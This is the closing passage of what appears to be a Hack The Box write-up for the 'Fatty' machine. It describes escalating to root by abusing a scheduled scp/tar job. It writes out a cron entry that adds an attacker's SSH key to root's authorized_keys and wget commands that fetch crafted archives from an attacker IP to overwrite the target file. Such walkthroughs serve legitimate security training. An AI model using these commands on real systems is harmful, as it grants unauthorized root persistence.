 3. Copy a crontab to `logs2.tar` (2nd run)


```
# echo "* * * * * root echo ssh-rsa AAA... >> /root/.ssh/authorized_keys" > logs2.tar
```

Notice we are `echo`ing a SSH public key we control to `root`'s `authorized_keys`? I figure this is the fastest way to gain a `root` shell.

Now, over at `qtc`'s shell, wait for `ash -c scp -f /opt/fatty/logs.tar` to appear then run the following command. This is the first run.

```
$ wget -O/opt/fatty/tar/logs.tar 10.10.x.x/logs1.tar
```

Once `ash -c scp -f /opt/fatty/tar/logs.tar` appears a second time in the next minute, run the following command. This is the second run.

```
$ wget -O/opt/fatty/tar/logs.tar 10.10.x.x/logs1.tar
```

Wait for another minute and we should be able to log in as `root` via SSH.

{% include image.html image_alt="954e3797.png" image_src="/3185267d-27f0-4823-bf4b-220b38ec9848/954e3797.png" %}

Sweet!

### Getting `root.txt`

Getting `root.txt` is trivial with a `root` shell.

{% include image.html image_alt="a78a82da.png" image_src="/3185267d-27f0-4823-bf4b-220b38ec9848/a78a82da.png" %}

:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/227
[2]: https://www.hackthebox.eu/home/users/profile/103578
[3]: https://www.hackthebox.eu/
